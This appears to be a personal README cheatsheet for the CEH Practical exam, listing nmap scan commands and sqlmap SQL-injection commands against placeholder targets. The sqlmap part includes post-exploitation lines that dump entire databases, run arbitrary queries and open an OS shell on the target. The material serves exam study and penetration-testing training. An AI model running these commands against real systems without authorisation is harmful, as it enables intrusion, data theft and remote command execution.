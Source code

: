 # CEH-Practical-Cheatsheet
For this exam I'm writing

## NMAP

- Scan a single IP	            	 `nmap 192.168.1.1`
- Scan a host	                    `nmap www.testhostname.com`
- Scan a range of IPs	            `nmap 192.168.1.1-20`
- Scan a subnet	                    `nmap 192.168.1.0/24`
- Scan targets from a text file	    `nmap -iL list-of-ips.txt`

- Scan a single Port	                `nmap -p 22 192.168.1.1`
- Scan a range of ports	            `nmap -p 1-100 192.168.1.1`
- Scan 100 most common ports (Fast)	`nmap -F 192.168.1.1`
- Scan all 65535 ports	            `nmap -p- 192.168.1.1`

- Scan using TCP connect	                `nmap -sT 192.168.1.1`
- Scan using TCP SYN scan (default)	    `nmap -sS 192.168.1.1`
- Scan UDP ports	                        `nmap -sU -p 123,161,162 192.168.1.1`
- Scan selected ports - ignore discovery	`nmap -Pn -F 192.168.1.1`

- Detect OS and Services	            `nmap -A 192.168.1.1`
- Standard service detection	        `nmap -sV 192.168.1.1`
- More aggressive Service Detection	    `nmap -sV --version-intensity 5 192.168.1.1`
- Lighter banner grabbing detection	    `nmap -sV --version-intensity 0 192.168.1.1`

- Save default output to file	        `nmap -oN outputfile.txt 192.168.1.1`
- Save results as XML	                `nmap -oX outputfile.xml 192.168.1.1`
- Save results in a format for grep	    `nmap -oG outputfile.txt 192.168.1.1`
- Save in all formats	                `nmap -oA outputfile 192.168.1.1`


- Scan using default safe scripts	    `nmap -sV -sC 192.168.1.1`
- Get help for a script	                `nmap --script-help=ssl-heartbleed`
- Scan using a specific NSE script	    `nmap -sV -p 443 –script=ssl-heartbleed.nse 192.168.1.1`
- Scan with a set of scripts	        `nmap -sV --script=smb* 192.168.1.1`

- Gather page titles from HTTP services	`nmap --script=http-title 192.168.1.0/24`
- Get HTTP headers of web services	    `nmap --script=http-headers 192.168.1.0/24`
- Find web apps from known paths	        `nmap --script=http-enum 192.168.1.0/24`


## SQLMAP

- Simple usage `sqlmap -u “https://target_site.com/page/”`
- Automatic GET request parameter `sqlmap -u “https://target_site.com/page?p1=value1&p2=value2”`
- Use POST request `sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2"`
- Request file as input(get it from Burpsuite) `sqlmap -r request.txt`
- Use authenticated session with cookie `sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2" --cookie="Session_Cookie_Value"`
- Use authenticated session with auth headers `sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2" --headers="Authorization: Basic YWxhZGRpbjpvcGVuc2VzYW1l"` 
- Basic authentication `sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2" --auth-type=basic --auth-cred=username:password`

# Post exploitation(use these if the SQLi vuln is positive)

- List databases `sqlmap -u “https://target_site.com/page?p1=value1” --dbs`
- List tables of TARGET_DB `sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB --tables`
- List columns of TARGET_TABLE in TARGET_DB `sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB -T TARGET_TABLE --columns`
- Dump specific data of columns `sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB -T TARGET_TABLE -C "Col1,Col2" --dump`
- Fully dump table `sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB -T TARGET_TABLE --dump`
- Dump the entire database `sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB --dump`
- Custom SQL query `sqlmap -u “https://target_site.com/page?p1=value1” --sql-query "SELECT * FROM TARGET_DB;"`
- Get OS shell `sqlmap -u “https://target_site.com/page?p1=value1” --os-shell`
- Get SQL shell `sqlmap -u “https://target_site.com/page?p1=value1” --sqlmap-shell`
- Use attack techniques `sqlmap -u “https://target_site.com/page?p1=value1” --technique=BEUSTQ`
    - B: Boolean-based blind
    - E: Error-based
    - U: Union query-based
    - S: Stacked queries
    - T: Time-based blind
    - Q: Inline queries

### General purpose command

`sqlmap -u “https://target_site.com/page/”--proxy="http://127.0.0.1:8080/" --cookie=”SESSID=lred0jr6na1vmci;” --data=”p1=value1” -p p1 --level=5 --risk=3 --dbms=mysql --technique=BEUSTQ --force-ssl`

